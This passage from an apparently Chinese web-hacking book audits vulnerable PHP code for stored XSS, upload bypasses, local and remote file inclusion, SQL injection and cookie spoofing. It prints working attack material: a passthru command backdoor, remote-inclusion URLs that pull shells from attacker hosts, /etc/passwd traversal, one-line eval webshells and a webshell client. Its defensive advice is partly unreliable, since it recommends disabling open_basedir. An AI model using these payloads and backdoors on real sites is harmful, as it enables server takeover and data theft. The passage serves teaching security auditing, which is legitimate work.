$db->query("UPDATE user SET face='". $img ."' where userid='". $id ."'");
//变量 face 没有经过转换和过滤就放入数据库中进行更新了
echo "<br><br><table width=\"360\" border=\"0\" align=\"center\"><tr><td><font color=\"#FF0000\"><center><b>个人形象修改成功，要 <a href=\"javascript:window.close()\">关闭</a> 此窗口吗？</b></center></font></td></tr></table>";
$db->close();
?>
```

我们再来整理一下上面的思路：首先查看自定义头像输入框代码，得到其 `name=url` 和 `value="<? echo $face;?>"`。于是搜索 `$face` 是如何被处理的，发现是按照 `" name=face1 width="140" height="190">` 这样的方式处理的。那么自定义头像代码又是在 `action/actface.php` 文件中被更新数据库的，而且没有过滤。

因为自定义头像数据没有进行转换，所以出现了头像跨站。因为它是 `" name=face1 width="140" height="190">` 这样处理的，所以我们应该输入 `#" onerror=alert('头像跨站')""`，那么就变成了 ``，这样就产生了跨站漏洞的结果，如图 10-18 所示。

图 10-18 头像跨站

其实，只要是在 `UPDATE` 和 `INSERT` 语句中，如果有变量没有进行转换和过滤，那么就基本上存在跨站。很多时候有的变量我们并不一定都看得到，比如它的属性为 `hidden`，还有一些获取客户端 IP 地址的变量，只要它们没有过滤就存在跨站。当然，利用这些隐蔽性比较好的变量，最为常用的办法就是用 WsockExpert 修改数据包中的内容，不过要注意一个字节数的问题，前面已经介绍了。

在 PHP 下要防止跨站很简单，只需要使用 PHP 自带的 `strip_tags()` 和 `htmlspecialchars()` 两个函数，就可以对用户提交的带有 html 和 php 的标记进行转换。比如尖括号 `<` 就将转化为 `&lt;` 这样无害的字符。我们要彻底防止跨站漏洞的产生，只要对 `UPDATE` 和 `INSERT` 中的变量用 `strip_tags()` 和 `htmlspecialchars()` 进行转换一下，就可以彻底防止跨站漏洞的发生了。

### 10.3 上传漏洞代码

利用上传漏洞我们可以轻易地得到一个 webshell，在 PHP 环境下也是如此。在上一章的 9.7.2 节中为大家介绍了 PHP 环境下上传的基础知识，所以在本节开始就为大家分析一些典型的 PHP 上传漏洞代码。

虽然很多程序员在编写上传代码的时候没有发生什么问题，但是他们在过滤和检测上传文件后缀名上疏忽了，典型的代码如下所示：

```php
$notypes=$notypes?$notypes:'.php|.asp|.jsp|.cgi|.exe|.dll';
if($type=file_type($upfile_name,$notypes)){ //用函数 file_type 检测上传文件后缀
    exit("对不起,请不要上传".$type."格式的文件,谢谢合作!");
}
$newfile=$path.'/'.$upfile_name;
$savepath=$rootpath.'/'.$newfile;
createdir($path);
if(copy($userfile,$newfile)){
    if(file_type($upfile_name,".jpg|.gif|.bmp|.png|.jpeg")){
        ..........处理图片文件
    }elseif(file_type($upfile_name,".rar|.zip")){
        ......处理压缩文件
    }
    ..............省略代码
    $out="上传成功";
}else{
    ..............上传失败处理代码
}
```

经过前面 ASP 上传漏洞代码的分析，你是否已经看出了上面代码的漏洞呢？仔细看：

```php
$notypes=$notypes?$notypes:'.php|.asp|.jsp|.cgi|.exe|.dll';
if($type=file_type($upfile_name,$notypes)){
    exit("对不起,请不要上传".$type."格式的文件,谢谢合作!");
}
```

首先，变量 `$notypes` 规定了不允许上传的文件格式有 `php`、`asp`、`jsp`、`cgi`、`exe`、`dll`，而后用 `file_type` 函数检测我们上传文件 `$upfile_name` 中是否存在 `$notypes` 中的后缀名，如果存在的话，就输出“对不起，请不要上传 ".$type." 格式的文件，谢谢合作！”，使得上传文件失败。上面的上传处理代码是没有问题的，问题就出在后缀名上。难道 PHP 就仅仅可以解析这几种后缀名？假设 PHP 系统架构在 Windows 操作系统上，那么还可以解析 `cer`、`asa`、`aspx`、`asax`、`cdx` 格式的文件。而在 Linux/Unix 操作系统上，还可以解析 `pl`、`php3` 格式的文件。

对于这样的漏洞，在 Windows 下，只需要把木马的后缀名改成 `cer`、`asa`、`aspx`、`asax`、`cdx` 中的一种，然后上传就可以得到一个 webshell 了。而对于 Linux/Unix 下，可以把 php 木马的后缀改成 `php3`，也可以上传一个 `pl` 格式的木马。`pl` 格式是 perl 语言的后缀，perl 是 Linux/Unix 下的一个脚本环境，上传成功也可以顺利获得 webshell。

对于这类漏洞目前在一些名气比较小的 PHP 系统中还是普遍存在，这是因为程序员对服务器不太熟悉而导致的，所以以后在分析上传漏洞的时候要特别关注后缀名有哪些，因为这经常是一个突破口。

还有一类上传漏洞比较常见，那就是程序员在写程序的时候逻辑上考虑不足。使得我们可以绕过它的限制，继续上传木马。例如曾经的 R-Blog 就出现过这类漏洞，它对上传文件的处理代码如下所示：

```php
if(isset($_FILES['picname']['tmp_name'])&&$_FILES['picname']['tmp_name']!="")
//如果 web 服务器中已经设置了临时存储的位置，且里面不为空就进行下面的操作
{
list($n,$e)=split("\\.",$_FILES['picname']['name']);
//利用$_FILES['picname']['name']取得上传文件的文件名，并把文件名和后缀进行分割
if($e=="jpg"||$e=="jpeg"||$e=="gif"||$e=="png")
//如果文件的后缀名是 jpg、jpeg、gif、png 中的一个，就进行下面的处理
{$filename="u".time();
//在原来的文件名的基础上把时间也加在后面，对文件进行重新命名了
$folder="upload/img/";
//把刚才上传的图片放入到文件夹 upload/img/中
$ubbcode[0]="[IMG]";
$ubbcode[1]="[/IMG]";
}
else  //如果不是图片
{$filename=$n;  //文件名还是原来上传的，不进行修改
$folder="upload/other/";
//如果上传的文件不是图片，那么就把文件放在文件夹 upload/other/中
$ubbcode[0]="[download=";
$ubbcode[1]="]".$n.".".$e."[/download]";
}
$R=copy($_FILES['picname']['tmp_name'],"../".$folder.$filename.".".$e);
//在判断之后把临时文件夹中的文件拷贝到已经设定的文件夹中
?>
```

可以看到它是这样处理文件的，如果上传的是图片格式的文件，就把图片放到 `upload/img/` 文件夹中，这个地方是没有疑问的。问题就出在后面，如果不是图片就把文件放到 `upload/other/` 文件夹中。这难道不是漏洞吗？它根本就没判断是什么文件就放进去了，也就是 `upload/other/` 文件夹中可以上传除图片以外的任何文件了。所以我们可以直接上传一个 PHP 木马，而且 `upload/other/` 文件夹并没有对上传的文件进行重新命名。所以，假设我们上传的 PHP 木马是 `123.php` 的话，那么在服务器中它的路径就应该是 `upload/other/123.php` 了，非常轻松就得到了 webshell。

在 2006 年，世界著名漏洞公布网站 milw0rm 公布了 FCKEditor 这个系统的一个上传漏洞，影响比较大。因为这个上传漏洞又被广泛地称之为意识漏洞，下面就给大家介绍一下这个比较经典的上传漏洞。

问题出现在 `config.php` 文件中对后缀名的检测上，代码如下所示：

```php
$Config['AllowedExtensions']['File'] = array() ;  //这是允许我们的文件类型
$Config['DeniedExtensions']['File'] =
array('php','php3','php5','phtml','asp','aspx','ascx','jsp','cfm','cfc','pl','bat','exe','dll','reg','cgi') ;  //这是不允许我们上传的类型
```

可以看到不允许上传的文件可真多啊，不过仔细看的话，好像还有一些文件名被遗漏掉了，如 php2、php4、inc、pwml、asa、cer，利用它们我们同样可以得到 webshell。再来看看它是如何处理上传文件的，代码如下：

```php
function FileUpload( $resourceType, $currentFolder )
{
.......................省略代码
$sExtension = substr( $sFileName, ( strrpos($sFileName, '.') + 1 ) );
$sExtension = strtolower( $sExtension ) ;
//得到文件的后缀名，它是以. (点)为标志，而且是取最后一个点为分界
global $Config ;
$arAllowed = $Config['AllowedExtensions'][$resourceType] ;
//允许上传的后缀
$arDenied = $Config['DeniedExtensions'][$resourceType] ;
//不允许上传的后缀名
if ( ( count($arAllowed) == 0 || in_array( $sExtension, $arAllowed ) ) && ( count($arDenied) == 0 || !in_array( $sExtension, $arDenied ) ) )
//判断上传文件的后缀是否是允许范围之内
{
$iCounter = 0 ;
while ( true )
{
$sFilePath = $sServerDir . $sFileName ;
//如果是允许上传的类型，则用文件名作为保存文件的文件夹名
.......................省略代码
move_uploaded_file( $oFile['tmp_name'], $sFilePath );
//把上传的文件移动到$sFilePath中
```

同样，在上面的文件处理过程中不存在什么问题，和前面第一种上传漏洞一样。那为什么叫意识漏洞呢？如果我们 `AllowedExtensions` 和 `DeniedExtensions` 的设置相互调换一下呢，如：

```php
$Config['AllowedExtensions']['File'] = array('rar', 'zip', 'jpg', 'jpeg', 'png', 'bmp');
//允许上传的后缀类型
$Config['DeniedExtensions']['File'] = array() ; //不允许上传的后缀类型
```

把设置 `DeniedExtensions` 改为设置 `AllowedExtensions`，那么只允许上传 rar、zip、jpg、jpeg、png、bmp 后缀，其他的任何后缀都将被拒绝。那么上面的漏洞就被堵上了，前面的第一个漏洞也可以用这种方法来修补。这样的漏洞就被称之为意识漏洞。

其实目前很多程序员都存在这个“意识漏洞”，他们在编写过滤上传文件类型时，不应该“被动”地去过滤非法后缀，应该“主动”过滤允许上传的类型。

上传漏洞大部分都是因为程序员在编写程序时，由于在逻辑上考虑不全面，使得我们有了可乘之机。所以大家在分析上传漏洞时，思路一定要清晰，特别是要有较强的逻辑思维能力。

### 10.4 包含文件漏洞

文件包含漏洞在第二章我想大家都已经完全领会了它的危害性，当然对于入侵者来说这样的漏洞恐怕是最好的礼物了。在第九章的 9.4 节中介绍的代码重用就是进行包含文件漏洞挖掘的基础知识。文件包含漏洞是这样被定义的：服务器通过 PHP 的特性（函数）去包含任意文件时，由于要包含的这个文件来源过滤不严，从而可去包含一个恶意文件，而我们可以构造这个恶意文件来达到攻击的目的。

注意上面定义中的“通过 PHP 的特性（函数）去包含任意文件”，它说明了出现包含文件漏洞的前提，必须是要使用 PHP 特性函数去包含文件。在 PHP 下能够完成执行包含文件功能的函数有：`include()`、`require()`、`include_once()` 和 `require_once()` 这四个函数。

`include()` 和 `require()` 语句：包含并运行函数中指定的文件。这两种函数除了在如何处理函数执行失败之外是完全一样的。`include()` 在执行时错误的话只产生一个警告，而 `require()` 则会出现一个致命的错误。比如，如果你想在遇到丢失文件时停止处理页面就用 `require()` 函数，而 `include()` 就不是这样了，它后面的脚本会继续运行。

`require_once()` 和 `include_once()`：`require_once()` 和 `include_once()` 语句在脚本执行期间包括并运行指定文件。这个函数的功能和 `require()` 语句类似，唯一区别是如果该文件中的代码已经被包括了，则不会再次包括。非常适用在脚本执行期间同一个文件有可能被包括超过一次的情况下，你想确保它只被包括一次执行，以避免函数重定义、变量重新赋值等问题的话，那就使用这两个函数是最好的选择。对于这四个函数的更加详细介绍，可以参考第九章的 9.4 节。

在讲文件包含漏洞前还要谈谈 `php.ini` 文件中的三个配置选项，它们是 `register_globals`、`open_basedir`、`allow_url_fopen`，这三个对我们的文件包含漏洞影响比较大。

`register_globals` 是 `php.ini` 里的一个配置，这个配置影响到 PHP 如何接收客户端传递过来的参数。`register_globals` 的值可以设置为：On 或者 Off，下面用一小段代码来说明 On 与 Off 下的区别，代码如下所示。

```html
<form name="hack" id="hack" action="URL">
<input type="text" name="user_name" id="user_name">
<input type="password" name="user_pass" id="user_pass">
<input type="submit" value="login">
</form>


```

当 `register_globals=Off` 的时候，服务器端获取数据的时候应该用 `$_GET['user_name']` 和 `$_GET['user_pass']` 来接受传递过来的值。（注：当 `<form>` 的 `method` 属性为 `post` 的时候应该用 `$_POST['user_name']` 和 `$_POST['user_pass']`）。

当 `register_globals=On` 的时候，服务器端程序可以直接使用 `$user_name` 和 `$user_pass` 来接受值。`register_globals` 的字面意思就是注册为全局变量，所以当 On 的时候，传递过来的值会被直接注册为全局变量直接使用；而 Off 的时候，我们需要到特定的数组里去得到它。在 PHP 4.2 及以后版本中，这个选项默认情况下是被关闭了，如图 10-19 所示，而在之前的版本默认是开启的。
图 10-19 register_globals 默认为 off

`open_basedir` 选项对文件包含漏洞的影响也是非常大的，这个选项可以禁止指定目录之外的文件操作，这样可以使得我们的操作被限制在某一个目录之内，所以如果启用了它的话就可以有效地消除本地文件或者远程文件被 `include()` 等函数调用的攻击。

`allow_url_fopen` 则对文件包含更加重要了，它的取值有 On 和 Off 两种。它的作用是调用远程文件的功能。如果启用它则支持远程调用文件，那么我们就可以利用 URL 往服务器中调入参数，如果参数没有过滤好的话就会发生远程文件包含漏洞了。禁用它则不支持远程文件调用功能。默认情况下，它是被打开的，而且支持 `http://` 和 `ftp://` 两种调用远程文件的方式，如图 10-20 所示。
图 10-20 allow_url_fopen 默认为 on

下面就来分析包含文件漏洞，对于要多次使用的代码，目前都是把它们放到一个公共的文件中。而后使用的时候只需要使用包含调用就可以完成引用了。我们可以使用上面的四个函数来完成这个包含调用。例如，我们想在 `index.php` 文件中包含 `header.php` 文件，只需要在 `index.php` 中使用 `include("header.php")` 就可以达到目的了。

当然，如果是像我们 `include("header.php")` 这样严格控制引入的文件，当然不会有什么问题，更不会有什么漏洞。但是，在实际的系统中，程序是比较复杂的，比如我们不确定要引用哪个文件，这个时候就需要一个变量来完成引用。例如下面的代码：

```php
if ($_GET['page']) {
    include $_GET['page'];
} else {
    include "article.php";
}


```

如果变量 `page` 存在的话，就引用 `page` 这个参数的值。如果没有设置的话，则引用 `article.php` 文件。这段代码的使用格式可能是 `http://www.xxx.com/index.php?page=hack.php` 或者 `http://www.xxx.com/index.php?page=book.php`，结合上面的代码，来看看它的工作流程：

- 提交上面这个 URL，在 `index.php` 中就取得这个 `page` 的值（`$_GET['page']`）。
- 判断 `$_GET['page']` 是不是空，若不空（这里是 `hack.php`）就用 `include` 来包含这个文件。
- 若 `$_GET['page']` 为空的话就执行 `else`，来 `include home.php` 这个文件。

可以看到使用非常方便，可以完成很多功能。但是这些都是引用正确的文件。可是对于黑客来说，他肯定不会乖乖地按照正常方式来引用文件。因为上面的变量 `page` 并没有经过任何验证，所以我们可以在 `page` 参数中输入任何数据，而且它都会执行我们所提交的数据。例如，我们打开 `http://www.xxx.com/index.php?page=hack.php`，然后 `index.php` 就会按照我们输入的 `hack.php` 文件去执行。这时问题出现了，因为我们并没有 `hack.php` 这个文件，所以它 `include` 的时候就会报警告，如图 10-21 所示。当然必须 `php.ini` 文件中的 `display_errors` 启用了才会返回报警信息，如果关闭了就不会返回。好在默认情况下是打开的，所以可以给我们提供很多有用的信息，如从 10-21 中我们就可以得到网站的绝对路径。
图 10-21 返回的错误信息

在第二章中，对于文件包含只介绍了远程写入 webshell 的攻击方法，其实还有一些方法当时并未介绍，下面就来谈谈。

#### (1) 读出目标机上的文件

因为没有对 `page` 之类的参数进行过滤，于是，我们可以提交目标主机中的一些敏感文件的路径，提交执行之后系统就会返回该文件中所包含的内容了。要读取本地主机的文件，必须要 `open_basedir` 选项开启了我们才能够操作其他目录中的文件。

例如前面的警告，我们看到网站的路径为 `/home/groups/x/xm/xmlbench/htdocs/`。那么我们就可以探测这个目录下的其他文件，如指定 URL 提交 `http://www.xxx.com/index.php?page=./admin.php` 就可以读取出当前路径下 `admin.php` 文件的内容了。也可以使用 `../` 跳转到其他目录中去查看其他文件，前提必须是系统没有过滤 `../`，而且一个 `../` 表示一个目录。如在 Linux 我们要读取密码文件，则可以输入 `http://www.xxx.com/index.php?page=/etc/passwd`，当然，要路径对得上才能读出来，如果路径不对则可以用 `../` 不断探测，直到读出为止。不过还有一个前提是操作系统权限，如果目标主机没有对权限限制得很严格，或者启动 Apache 的权限比较高，是可以读出这个文件内容的。否则就会得到一个类似于：`open_basedir restriction in effect.` 的 Warning。

### (2) 远程写入 webshell

远程写入 webshell 的攻击方法在第二章中已经详细介绍了，因为 `allow_url_fopen` 默认是启用，所以我们可以在参数中提交一个 URL 地址，把 URL 中的内容包含到文件中去执行。如果我们提交的 URL 地址是一个木马文件，那么木马代码也会被包含在服务器中执行，这样我们就得到一个 webshell。远程写入 webshell 非常简单，直接提交“`http://www.xxx.com/index.php?page=你的木马地址`”就可以获得一个 webshell。当然，我们也可以自己写一个后门，让它执行我们的命令，如下所示就是一个最为简单的后门了。

```php
if (get_magic_quotes_gpc())
{$_REQUEST["cmd"]=stripslashes($_REQUEST["shell"]);} 
//可去掉字符串中的反斜线字符
ini_set("max_execution_time",0);
//设定针对这个文件的执行时间，0 为不限制.
passthru($_REQUEST["shell"]);
//运行 shell 指定的命令
```

上面的代码就是接收我们的 shell 命令并执行它，我们只需要使用 URL 就可以执行命令了。假设上面的代码被放在了 `http://www.hack.com/shell.txt` 中，然后提交到存在漏洞的 URL 中就可以了。如对于 Linux 主机下我们提交 `http://www.xxx.com/index.php?page=http://www.hack.com/shell.txt?shell=ls -a` 就可以遍历当前目录下的所有文件了；对于 Windows 主机下我们提交 `http://www.xxx.com/index.php?page=http://www.hack.com/shell.txt?shell=dir` 就可以遍历当前目录下所有的文件了。

上面的文件包含漏洞中的参数 `page` 是一个完整的文件名，但是在很多情况下，需要提交的参数只是文件名，而后缀名已经被系统给固定了，如下所示：

```php
if ($_GET['page']) {
    include "$_GET[page].php";
} else {
    include "home.php";
}
```

可以看到提交的参数 `page` 只是文件名，后缀名已经被系统设置为 `php` 了。如果这个时候进行远程写入 webshell 的话，提交 `http://www.xxx.com/index.php?page=http://www.hack.com/shell.txt` 就会返回错误。因为提交最后的 `shell.txt` 在服务器中被变成了 `shell.txt.php`，因为 `shell.txt.php` 不存在，所以当然会返回错误。所以对于这种情况，应该输入 `http://www.xxx.com/index.php?page=http://www.hack.com/shell` 就可以得到 webshell。

对于文件包含漏洞的查找其实很简单，我们只要利用记事本的搜索功能搜索 `include()`、`require()`、`include_once()`、`require_once()` 这四个函数，就可以得到该文件中所有包含文件的情况。找到了包含文件的地方之后，就要看在包含时所附带的变量是否进行了转换和过滤，如果没有被处理就产生了文件包含漏洞。

我们来看看 milw0rm 上发布的一个文件包含漏洞的代码分析与利用的公告，URL 地址为 `http://www.milw0rm.com/exploits/3473`。我们看看出现包含漏洞的地方，如图 10-22 所示。

```text
Vulnerability:
~~~~~~~~~~~~~

- Invalid include_once function at mods/content/load.inc.php
-------------------mods/content/load.inc.php-------------------

<?
  include_once($moddir . '/functions.lib.php');
?>
```

图 10-22 漏洞代码

可以看到代码在文件 `load.inc.php` 中是 `include_once($moddir . '/functions.lib.php');`，这样引入 `functions.lib.php` 文件的。其中变量 `$moddir` 是没有经过过滤和转换就放入到了包含执行中的，再来看它是如何被利用的，如图 10-23 所示。

```text
Proof Of Concept:
~~~~~~~~~~~~~~~~~

http://localhost/mods/config/load.inc.php?moddir=http://atacker.com/inject.txt?
http://localhost/mods/http/load.inc.php?moddir=http://atacker.com/inject.txt?


```

图 10-23 漏洞利用过程

可以看到直接在文件 `load.inc.php` 中的参数 `moddir` 中引入木马地址就可以获得一个 webshell 了，其中 `http://attacker.com/inject.txt?` 是发现这个漏洞的黑客自己的木马地址，这里只要改成自己的就可以了。这里还给大家提供了一个非常好的文件包含通用工具，利用它进行文件包含入侵更加方便了，如图 10-24 所示。
图 10-24 通用文件包含利用工具

要发现文件包含漏洞只要抓住了 `include()`、`require()` 和 `include_once()`、`require_once()` 这四个函数就抓住了文件包含漏洞。搜索到了包含文件函数之后，就是要看在引用的时候是否对输入的参数进行了检测，如果没有则漏洞发生。

要防止包含文件漏洞的发生，要从三方面着手。一是对所有包含进来的参数都要进行过滤和检测；二是禁用 `open_basedir`；三是禁用 `allow_url_fopen`。做了这三方面那么文件包含也就被彻底地断绝了。

### 10.5 其他程序安全细节问题

PHP 程序中其实还有很多安全问题，但大多数难形成一类体系，所以就把它们都放到本节来介绍。

#### 10.5.1 文件代码泄露

文件代码泄露漏洞也算是一个比较常见的漏洞了。产生的原因主要是因为在打开文件的时候没有严格过滤参数（变量），因而导致被恶意提交参数，使得文件代码被泄露。该漏洞涉及的函数有 `fopen()`、`openfile()`、`file()`、`readfile()` 这四个函数，其中 `fopen()`、`openfile()` 是用于打开文件；`file()`、`readfile()` 用于读取整个文件。这些函数的具体用法在第九章已经介绍了，这里不再重复。直接来看看典型的文件代码泄露漏洞的代码：

```php
$filearray=openfile("$path/$userid/$id.php");
```

```php
// 打开 $path/$id 这个路径的 $id.php 文件
$detail=explode("|",$filearray[0]); // 用分割符 | 读出帖子内容
```

可以看到参数 `$path` 和 `$id` 都是没有经过过滤就放入到了 `openfile()` 函数中去了，这样我们就可以利用这两个参数构造一些文件路径，使得我们能够读取该文件中的内容。例如我们读取 admin 文件夹下的 `admin.php` 文件代码，则只需要提交 `http://www.xxxx.com/xx.php?userid=1234&id=admin/admin.php` 就可以读取该文件内容了。

#### 10.5.2 文本数据库的安全问题

目前很多 PHP 系统的后台开始使用文本数据库了，比较著名的论坛有 CTB 等等。因为文本数据库具有很大的灵活性，且不需要外部的支持。加上 PHP 本身的文件处理能力非常强大，因此文本数据库在 PHP 系统中逐渐开始流行起来。虽然在一定程度上使用文本数据库比使用 MySQL 等关系数据库更加方便，可也出现了一些比较大的问题。例如其安全性就比其他数据库要低很多。

因为文本数据库是一个普通文件，因此它和 MDB 数据库一样可以被下载。因此很多程序员把文本数据库的后缀名改成 php 格式，这样虽然可以防止数据库被下载，但是又出现了一个更大的安全问题。还记得在 ASP 中利用暴库漏洞得到 asp 格式数据库后，往里面写入一句话木马之后那么这个 asp 数据库就变成了一个后门了。同样，对于 php 格式数据库也依然存在这个问题，如果我们知道了数据库的路径，那么我们就可以往 php 数据库中写入一个一句话木马的服务端，可以用系统提供的如评论等功能来实现在数据库中插入数据。有了这个之后只需要用一句话木马客户端连接一下就可以得到一个 php 的 webshell 了。还有一种方法也会使得数据库被当作后门来使用，例如往文本数据库中写入数据，典型的代码如下所示：

```php
$usename=$_REQUEST["usename"];
$content=$_REQUEST["content"];
$fd=fopen("test.php","a");
fwrite($fd,"\r\n$usename|$content");
fclose($fd);
```

获得客户端的 `usename` 和 `content` 的数据之后，没有进行任何检测就把数据写入到了 `test.php` 文件中去了。这样，当我们写入一个 PHP 后门，如 `<?@include($_POST["cmd"]);?>` 就获得一个 shell，接着利用一句话木马客户端提交即可获得一个 webshell 了。

#### 10.5.3 逻辑问题

在 ASP 中为大家介绍的 `or'='or` 及 cookie 欺骗漏洞都是属于逻辑上的问题，实际上也就是数学问题了，下面就来谈谈在 PHP 程序中的那些数学问题。也来看看 PHP 程序中常见的后台登录漏洞，目前很多脚本仅仅对后台登录的管理员权限作出“是”判断，而往往忽略了“否”判断。所以，在 PHP 配置文件中 `register_globals` 打开的情况下，我们就可以冒充管理员登录后台了，典型的代码如下所示：

```php
$cookielogin="admincookie";      // 判断是否 Admin 的 cookie 变量
$adminlogin=$_COOKIE["admin"];   // 获取用户的 cookie 变量

if($adminlogin==$cookielogin)
{
    $login=true;
}

if($login){echo "欢迎管理员进入后台...";}
```

在 `register_globals` 打开的情况下，我们在 URL 这样提交 `login.php?login=true` 就可以登录后台了。还记得在前面讲的那个全局变量吗？当 `register_globals` 打开时，我们提交的变量都会自动初始化，所以当我们提交 `login=true` 时，`login` 变量的值就自动成为了 `true`。而且由于变量没有进行“否”的判断，这样使得可以顺利通过 `login=true` 登录后台了。

```php
if ((isset($_POST['username'])) && (isset($_POST['password']))){
    // 是否存在 username 和 password
    $username = $_POST['username'];      // 获取输入的 username
    $password = $_POST['password'];      // 获取输入的 password
    ........省略代码
    $yes = mysql_query("SELECT * FROM users WHERE username='".$username."' AND password='".$password."'");   // 执行 mysql 查询语句
}
```

上面的代码是不是有点熟悉呢？`username` 和 `password` 经过 POST 方式获得客户端输入之后就直接查询了数据库。这样就出现了经典的 `'or'='or'` 漏洞了。例如在 username 处输入 `1' or 1=1 or '1'='1`，password 处随便输入什么，如 `123`。那么整条语句就变成了 `SELECT * FROM users WHERE username='1' or 1=1 or '1'='1' AND password='123'`，变成数学表达式就是“假 or 真 or 真 and 假”，即整条代码就变成了真，那么就可以顺利登录后台了。

#### 10.5.4 讨论 Cookie 和 Session 的安全

上一章简单介绍了 cookie 和 session 的基础知识，下面就来讨论下它的安全问题。在 PHP 中，cookie 可以和普通变量一样，把结果存入全局变量 `$_COOKIE` 或 `$HTTP_COOKIE_VARS` 数组中。如果在 cookie 中设置了两个变量 `user` 和 `pass`，那么可以以下面的方式来使用它：

```php
echo "用户名：$user";
echo "密码：$pass";
// 或
echo "用户名：$_COOKIE[\"user\"]";
echo "密码：$_COOKIE[\"pass\"]";
```

因为 cookie 是放在客户端的，所以我们可以修改 cookie 的值。如果程序编写得不是很严密，那么我们可以欺骗它提升权限，例如下面的代码就存在这样的问题。

```php
$password=$_COOKIE["password"];
if($pass==$password){
    setCookie("user","admin");
}
else{
    die("你输入的密码错误");
}

if($_COOKIE["user"]=="admin"){
    echo "登录成功";
}
```

或

上面的两段代码，第一个验证输入的是密码，第二个验证输入的是用户名。它们都是通过 `$_COOKIE` 保存在客户端的，在获得后就直接与 `admin` 或 `$pass` 判断是否相等。这难道不是典型的 cookie 欺骗漏洞吗？我们只需要把 `$_COOKIE["password"]` 的值改成 `$pass` 或 `$_COOKIE["user"]` 改成 `admin` 就可以欺骗服务器了，进而提高权限。

记得在 BMForum 系统的 `style.php` 中曾出现过一个比较经典的 cookie 漏洞代码，如下所示：

```php
$skinname="{$_COOKIE['bmbskin']}";
if(empty($skinname)) $skinname=$skin;
if(file_exists("datafile/style/".$skinname))
    include("datafile/style/".$skinname);
else include("datafile/style/bmb");
```

可以看到，`$_COOKIE['bmbskin']` 没有经过任何过滤就放入到 `include` 语句中去了。所以出现了经典的文件包含漏洞了。例如，我们在本地机器上修改 `$_COOKIE['bmbskin']` 的值，把它改成“`../../../../etc/passwd`”，那么就可以读取 Linux 服务器上 `etc/passwd` 文件内容了。

下面来谈谈 session 的安全问题。我们知道 session 是在客户访问页面的时候，服务器保存客户端的一小段数据，它可以被看作是一个存放变量的地方。因此，session 的值并不像 cookie 那样可以被任意地创建和修改。

每创建一个 session 都是由客户端自动分配的，对应着唯一的标识符（SessionID），当这个标识符被发送到客户端的同时，服务器端也会生成同样的标识符，作为客户端的入口，并以文本文件或者数据库的形式保存。注册了 Session 变量后，就可以通过标识符来进行客户端与服务器的通信和读写操作了。

当浏览器被我们关闭后，Session 的生命周期也被结束了，不过 session 文件仍然保存在服务器中。当我们下次再打开时，浏览器会重新分配 SessionID。

在 PHP 中要使用 `session_start()` 函数来启用 session，通过 `setcookie()` 函数来设置 cookie，通过 `session_save_path()` 用于保存 session。因为 session 比较特殊，所以它主要存在以下的安全问题：

- Session id 是唯一的，所以如果我们能够猜解到或嗅探到一个用户的 Session id，就可以不需要用户名和密码而直接访问需要权限的信息。
- Session id 的长度不是很大，而且 Session id 是不会过期的，所以我们可以采取爆破的手段获取位置和值。
- 因为现在的网站大部分都采取的是虚拟主机，而且 session 数据一般都保存在文件中，所以当我们控制了一个网站后，可以利用该网站的权限访问其他站点的 session 文件。

### 10.6 PHP 一句话木马客户端简单解析

对于 PHP 木马的各种使用方法，我想在前面大家已经掌握了。同样的，在 PHP 下获得 webshell 的方法仍然是通过一句话木马。常见的 PHP 一句话木马服务端是 `<?php eval($_POST[cmd]);?>`，不过当运行出现错误时候，这个就不好用了。所以就出现了具有容错的服务端，为 `<?php @eval($_POST[cmd]);?>`。当然，也有一些杀毒软件可以查杀这些服务端，所以又出现了超短型的服务端，为 `<?eval($cmd);?>`。

在前面介绍 PHP 一句话木马的时候，利用的是 GUI 版本，有的时候非常方便。不过大家有没有想过自己写一个一句话木马的客户端呢？相信前面有了 ASP 一句话木马客户端的基础之后，写一个 PHP 的不是太难。这里我简单写了个 PHP 一句话木马的客户端，代码如下所示：

```html
<html>
<head><title>sdf</title></head>
<table width="1000" border="1" align="center">
            PHP 一句话木马客户端
<FORM ENCTYPE="multipart/form-data" name=form method=post target=_blank>
 提交地址：
<input size=30 value=URL name=url><br> 密 码：<INPUT size=10 value=pass name=pass><br>
此处填写 PHP 代码：<br>
<TEXTAREA name=textarea rows=10 cols=50></TEXTAREA><br>
<INPUT
onclick="Javascript:form.textarea.name=form.pass.value;form.action=document.all.url.value;form.submit();" type=button value="提 交" name=send>
</form>
</table>
</html>


```

代码运行后的结果如图 10-25 所示。
图 10-25 PHP 一句话木马客户端界面

在提交地址处提交我们插入了一句话木马服务端的文件 URL 地址，密码则为登录密码，而文本输入域则是输入 PHP 代码，比如 PHP 木马等。输入之后，我们点击提交，代码就提交进去了插入一句话木马服务端的文件里了。

虽然我们上面写的那个小东西也能够完成 PHP 一句话木马客户端基本的功能，不过显然不够完善，所以这里给大家推荐“采飞扬 PHP 微型木马客户端”这个工具，如图 10-26 所示。
图 10-26 采飞扬 PHP 微型木马客户端

接下来就给大家介绍一些 PHP 木马的关键技术代码。前面我就说了，在我编写的那个客户端中的输入文本域中可以填写任何 PHP 代码，不仅仅是 PHP 木马，采飞扬 PHP 微型木马客户端中的“发送执行的主代码”也是一样的。所以下面讲解的代码同样可以填入进去执行，就可以得到相应的结果。

我们知道 PHP 木马都提供了对 PHP 环境变量的获取，其实要实现这个功能非常简单，只需要使用 PHP 内置的 `phpinfo()` 函数即可实现对服务器 PHP 环境变量的获取了。所以只需要在输入域中填入 `phpinfo();` 语句，点击提交之后就可以完成这个功能了。

我们经常要知道一个文件的目录名，这对我们下一步的渗透提供了很多信息。利用 `dirname()` 函数即可完成这个功能，函数 `dirname()` 的格式为 `string dirname ( string path )`。这个函数接受的参数为一个文件的全路径，返回的结果为去掉文件名后的目录名。例如：

```php
<?php
$path = "/etc/passwd";
$file = dirname($path); // 返回的结果为 "/etc"
?>


```

对于一个木马，是肯定提供了上传功能的。在 PHP 木马中，要上传一个文件，首先要提供一个上传输入框，采飞扬 PHP 微型木马客户端已经为我们提供了这个非常好的功能，如图 10-27 所示。不过我们还需要在输入文本框中输入代码，代码为 `echo copy($_FILES[upload][tmp_name],$_FILES[upload][name]);`。而且 `upload` 是图 10-27 中输入框中 `name` 属性的值，如图 10-28 所示。
图 10-27 上传页面
图 10-28 输入框的 `name` 属性为 `upload`

